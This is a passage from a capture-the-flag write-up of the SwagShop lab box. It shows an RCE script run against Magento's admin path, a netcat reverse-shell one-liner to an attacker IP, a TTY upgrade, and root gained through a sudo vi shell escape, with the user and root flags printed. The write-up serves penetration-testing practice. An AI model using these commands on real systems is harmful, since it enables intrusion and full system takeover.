







- Now let’s head back to the Repeater and resend the same request.



- Looks like `src=` and `ga=` are showing up in the response now. Hopefully, that means our script will work this time.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py 'http://swagshop.htb/index.php/admin/' "whoami"
www-data
```
- And just like that, it worked!

#### Reverse Shell

Let's run a listener on port `7777`. and then run our script. 

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py 'http://swagshop.htb/index.php/admin/' "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.2 7777 > /tmp/f"

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop]
└─$ nc -lnvp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.140 46018
bash: cannot set terminal process group (1857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ whoami
whoami
www-data
```

#### Upgrading TTY

```bash
www-data@swagshop:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/var/www/html$ ^Z

zsh: suspended  nc -lnvp 1234
                                                                                                                    
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? screen
```

- Now let's search for the user flag.

```bash
www-data@swagshop:/var/www/html$ cd /home
www-data@swagshop:/home$ ls
haris
www-data@swagshop:/home$ cd haris
www-data@swagshop:/home/haris$ ls
user.txt
www-data@swagshop:/home/haris$ cat user.txt 
c8a2e47d1ad88cdf780c0cf9f4c8a263

```

- User Flag: `c8a2e47d1ad88cdf780c0cf9f4c8a263`

## Privelege Escalation

- First thing to do is to run the commands that we can run as root.

```bash
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
- This means the www-data may run `/usr/bin/vin` on any file located under `/var/www/html/`.


```bash
www-data@swagshop:/home/haris$ ls /var/www/html
LICENSE.html       app          get.php           js              pkginfo
LICENSE.txt        cron.php     includes          lib             shell
LICENSE_AFL.txt    cron.sh      index.php         mage            skin
RELEASE_NOTES.txt  errors       index.php.sample  media           var
api.php            favicon.ico  install.php       php.ini.sample

www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/index.php

<?php
/**
 * Magento
 *
 * NOTICE OF LICENSE
 *
 * This source file is subject to the Open Software License (OSL 3.0)
 * that is bundled with this package in the file LICENSE.txt.
 * It is also available through the world-wide-web at this URL:
 * http://opensource.org/licenses/osl-3.0.php
 * If you did not receive a copy of the license and are unable to
 * obtain it through the world-wide-web, please send an email
 * to license@magentocommerce.com so we can send you a copy immediately.
 *
 * DISCLAIMER
 *
 * Do not edit or add to this file if you wish to upgrade Magento to newer
 * versions in the future. If you wish to customize Magento for your
 * needs please refer to http://www.magentocommerce.com for more information.
 *
 * @category   Mage
 * @package    Mage
@@@
:!/bin/bash
root@swagshop:/home/haris# whoami
root
root@swagshop:/home/haris# cd /root
root@swagshop:~# ls 
root.txt
root@swagshop:~# cat root.txt 
646f2284d1a9d92bda34aa5040b8e395

```

Root Flag: `646f2284d1a9d92bda34aa5040b8e395`

Thank you for your time.

# Mission complete


